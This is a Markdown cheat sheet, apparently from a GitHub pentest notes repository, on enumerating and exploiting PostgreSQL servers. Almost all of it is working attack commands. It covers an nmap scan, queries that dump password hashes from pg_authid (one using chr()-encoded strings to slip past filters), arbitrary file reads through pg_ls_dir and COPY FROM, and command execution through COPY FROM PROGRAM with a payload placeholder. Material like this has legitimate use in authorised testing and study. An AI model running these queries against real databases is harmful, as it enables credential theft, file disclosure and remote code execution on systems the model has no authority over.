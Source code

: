 # PostgreSQL enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Connecting to a PostgreSQL database](#connecting-to-a-postgresql-database)
* [Enumerating a database](#enumerating-a-database)
* [Arbitrary File Read _(AFR)_](#arbitrary-file-read-afr)
* [Remote Code Execution _(RCE)_](#remote-code-execution-rce)

## Initial enumeration
```bash
nmap -vv -p 5432 -sT --script=+pgsql* <ip>
```

## Connecting to a PostgreSQL database
```bash
psql "dbname=<db_name> host=<ip> user=<username> password=<password> port=5432"
```

## Enumerating a database
- Get version:
```SQL
SELECT version();
```
- Get current database:
```SQL
SELECT current_database();
```
- Get current user:
```SQL
SELECT current_user;
```
- Get current user's password hash:
```SQL
SELECT rolpassword FROM pg_catalog.pg_authid WHERE rolname=current_user
```
- List all users:
```SQL
SELECT rolname FROM pg_catalog.pg_authid ORDER BY 1;
```
- Get default user's password hash:
```SQL
SELECT rolpassword FROM pg_catalog.pg_authid WHERE rolname=(chr(112)||chr(111)||chr(115)||chr(116)||chr(103)||chr(114)||chr(101)||chr(115)) -- "postgres" user
```
- List tables:
```SQL
SELECT table_schema,table_name FROM information_schema.tables ORDER BY 1;
```
- List table columns:
```SQL
SELECT column_name FROM information_schema.columns WHERE table_name='<table_name>' ORDER BY 1;
```
- Search for `%user%` like tables:
```SQL
SELECT table_schema,table_name FROM information_schema.tables WHERE lower(table_name) LIKE chr(37)||chr(117)||chr(115)||chr(101)||chr(114)||chr(37) ORDER BY 1 LIMIT 1 OFFSET 0;
```

## Arbitrary File Read _(AFR)_
- Directory listing:
```SQL
select pg_ls_dir('<path>');
```
- Read a file:
```SQL
DROP TABLE IF EXISTS temp;
CREATE TABLE temp(t TEXT);
COPY temp FROM '<file_path>';
SELECT * FROM temp;
```

## Remote Code Execution _(RCE)_
```SQL
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output TEXT);
COPY cmd_exec FROM PROGRAM '<payload>';
SELECT * FROM cmd_exec;
```

